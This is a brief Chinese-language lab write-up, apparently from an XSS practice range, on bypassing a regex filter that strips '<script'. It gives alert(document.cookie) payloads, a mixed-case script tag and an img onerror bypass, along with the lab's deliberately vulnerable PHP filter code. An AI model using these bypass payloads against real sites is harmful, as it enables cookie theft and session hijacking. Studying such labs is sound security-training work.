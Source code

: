 

### xss过滤

bypas为了防止xss攻击而设置的waf

```
<script>alert(document.cookie)</script>
```

看看过滤了什么

输入`<script>alert(document.cookie)</script>`  =》 '>'

![](https://i.loli.net/2021/02/13/HnZIpcgKvPu7OaC.png)

`alert(document.cookie)` => 'alert(document.cookie)'

![](https://i.loli.net/2021/02/13/WGHE3wDIovOh5kg.png)

`<script>`被过滤为`>`;也就是说`<script`被过滤

此处只能用 大小写绕过 或者 非script标签的payload：

```
<sCRipt>alert(document.cookie)</sCRipt>
<img  src=1  onerror=alert(document.cookie)> 
```



看一下源码：

```php
过滤部分：
if(isset($_GET['submit']) && $_GET['message'] != null){
    //这里会使用正则对<script进行替换为空,也就是过滤掉
    $message=preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/', '', $_GET['message']);
//    $message=str_ireplace('<script>',$_GET['message']);

    if($message == 'yes'){
        $html.="<p>那就去人民广场一个人坐一会儿吧!</p>";
    }else{
        $html.="<p>别说这些'{$message}'的话,不要怕,就是干!</p>";
    }

}
```

使用了如下的正则过滤，类似双写、注释干扰都无法生效了

![](https://i.loli.net/2021/02/13/wpvoqGeBJXK3LR4.png)
![](https://i.loli.net/2021/02/13/vXfZuO7iCdhteKa.png)



### xss过滤常见bypass:
